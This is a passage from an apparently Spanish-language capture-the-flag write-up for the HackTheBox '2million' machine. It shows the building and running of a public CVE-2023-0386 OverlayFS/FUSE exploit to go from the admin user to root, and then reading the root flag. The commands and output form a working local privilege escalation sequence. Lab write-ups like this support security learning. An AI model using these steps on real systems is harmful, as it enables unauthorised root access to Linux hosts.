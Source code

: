 ```bash
fuse.c:221:5: warning: implicit declaration of function ‘rmdir’ [-Wimplicit-function-declaration]
  221 |     rmdir(mount_path);
      |     ^~~~~
/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/11/../../../x86_64-linux-gnu/libfuse.a(fuse.o): in function `fuse_new_common':
(.text+0xaf4e): warning: Using 'dlopen' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking
gcc -o exp exp.c -lcap
gcc -o gc getshell.c
admin@2million:/tmp/CVE-2023-0386$ ls
exp  exp.c  fuse  fuse.c  gc  getshell.c  Makefile  ovlcap  README.md  test
```


Ahora ejecuto el siguiente comando
```bash
admin@2million:/tmp/CVE-2023-0386$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
mkdir: File exists
fuse: mountpoint is not empty
fuse: if you are sure this is safe, use the 'nonempty' mount option
fuse_mount: File exists

admin@2million:/tmp/CVE-2023-0386$ ./fuse nonempty ./ovlcap/lower ./gc
[+] len of gc: 0x0

```
Y ahora ejecuto la segunda terminal .
```bash
admin@2million:~$ cd /tmp/CVE-2023-0386/ 
admin@2million:/tmp/CVE-2023-0386$ ./exp 
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Jun 10 23:14 .
drwxr-xr-x 6 root   root     4096 Jun 10 23:19 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:/tmp/CVE-2023-0386# whoami
root
```
<div style="text-align: center;">
    <b><span style="color: #98FB98;">R00T FLAG</span></b>
    <br>
    ---------------------------
</div>

```bash
root@2million:~# find / -name root.txt
find: ‘/tmp/CVE-2023-0386/nonempty’: Permission denied
find: ‘/tmp/CVE-2023-0386/ovlcap/lower’: Permission denied
/root/root.txt
root@2million:~# cat /root/root.txt
5d7c7780165ae6ec2958a2a063e33652
```